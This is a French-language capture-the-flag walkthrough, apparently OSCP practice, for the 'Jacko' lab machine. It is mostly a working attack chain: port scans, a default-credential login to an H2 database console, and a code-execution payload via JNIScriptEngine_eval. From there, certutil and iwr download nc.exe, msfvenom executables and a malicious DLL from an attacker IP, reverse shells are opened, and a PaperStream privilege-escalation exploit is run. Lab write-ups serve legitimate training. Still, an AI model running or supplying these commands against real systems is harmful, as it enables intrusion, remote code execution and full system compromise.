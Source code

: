 # Jacko

	sudo masscan -p1-65535,U:1-65535 192.168.203.66 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.203.66 -oN nmap.txt
	feroxbuster --silent -u http://192.168.203.66/
	feroxbuster --silent -u http://192.168.203.66:8082/
	
Scans classiques.
 
    80/tcp open http Microsoft IIS httpd 10.0  
    135/tcp open msrpc Microsoft Windows RPC  
    139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
    445/tcp open microsoft-ds?  
    5040/tcp open unknown  
    8082/tcp open http H2 database http console  
    9092/tcp open XmlIpcRegSvc?  
    49664/tcp open msrpc Microsoft Windows RPC  
    49665/tcp open msrpc Microsoft Windows RPC  
    49666/tcp open msrpc Microsoft Windows RPC  
    49667/tcp open msrpc Microsoft Windows RPC  
    49668/tcp open msrpc Microsoft Windows RPC  
    49669/tcp open msrpc Microsoft Windows RPC

Sur l'interface du port 8082, la connexion avec les identifiants par défaut ("sa" / "") marche et on a accès à une console SQL mais il semble ne rien y avoir d'exceptionnel dans la base de données. On voit juste qu'il n'y a pas d'autres utilisateurs dedans, et quelques informations sur l'OS : 

	SELECT * FROM INFORMATION_SCHEMA.SETTINGS;
	SELECT * FROM INFORMATION_SCHEMA.USERS;

En revanche la console elle-même ("H2 1.4.199") semble vulnérable à de l'injection de code : 
<br /> https://www.exploit-db.com/exploits/49384

Il suffit de recopier le code de l'exploit directement dans la console SQL et on a bien le résultat "jacko\tony" pour la commande "whoami" par exemple. Il faut ensuite simplement remplacer la commande dans la ligne suivante : 

    "CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');"

Je n'ai pas réussi à faire fonctionner le moindre reverse-shell directement mais les téléchargements semblent marcher et j'ai trouvé une solution détournée :  

	certutil.exe -urlcache -f http://192.168.45.189/nc.exe  ../../../../../Users/Public/nc.exe
	C:/Users/Public/nc.exe 192.168.45.189 443 -e sh

En relançant le code avec les deux lignes ci-dessus j'obtiens bien une connexion mais le reverse-shell se coupe au bout de quelques secondes. J'ai donc décidé de reproduire cette séquence avec MSFVenom pour fiabiliser le processus : 

    msfvenom  -p windows/shell/reverse_tcp LHOST=192.168.45.189 LPORT=443 -f exe >  /var/www/html/msfvenom.exe
    ...
    rlwrap nc -nvlp 443
    
Et dans la console SQL on répète la procédure avec ces lignes :  

    certutil.exe -urlcache -f http://192.168.45.189/msfvenom.exe  ../../../../../Users/Public/msfvenom.exe
    C:/Users/Public/msfvenom.exe

Les shells continuaient à se fermer directement et j'ai dû passer par Metasploit pour la réception. Je n'ai pas utilisé Meterpreter afin de mieux simuler mes futures conditions d'examen pour l'OSCP, mais cela fonctionne tout aussi bien avec le payload classique : 

    msfconsole -x "use exploit/multi/handler ; set payload windows/shell/reverse_tcp ; set LHOST 192.168.45.189 ; set LPORT 443 ; run ; "
    ...
	C:\Users\tony\Desktop>type local.txt  


### Élévation de privilèges utilisant un CVE : 

Les deux seules difficultés sont la variable PATH mal configurée et le programme Powershell qui semble situé à un autre endroit. Il faut donc au préalable redonner la bonne valeur au PATH puis chercher Powershell manuellement : 

	cd C:\
	set PATH=%SystemRoot%\system32;%SystemRoot%;
	dir "*powershell*" /s
	cd Windows\WinSxS
	dir | findstr "powershell" | findstr "exe"
	cd amd64_microsoft-windows-powershell-exe_31bf3856ad364e35_10.0.18362.1_none_3b736eaf7f6b1264
	powershell.exe -ep bypass

	dir "Program Files (x86)"
	dir "Program Files"
	
	iwr -Uri http://192.168.45.189/exploit_PaperStream.ps1 -Outfile .\exploit.ps1
	iwr -Uri http://192.168.45.189/UninOldIS.dll -Outfile C:\Windows\Temp\UninOldIS.dll
	./exploit.ps1
	

De mon côté : 
    
    msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.45.189 LPORT=9999 -f dll > UninOldIS.dll
	rlwrap nc -nvlp 9999
	...
	C:\Users\Administrator\Desktop>type proof.txt


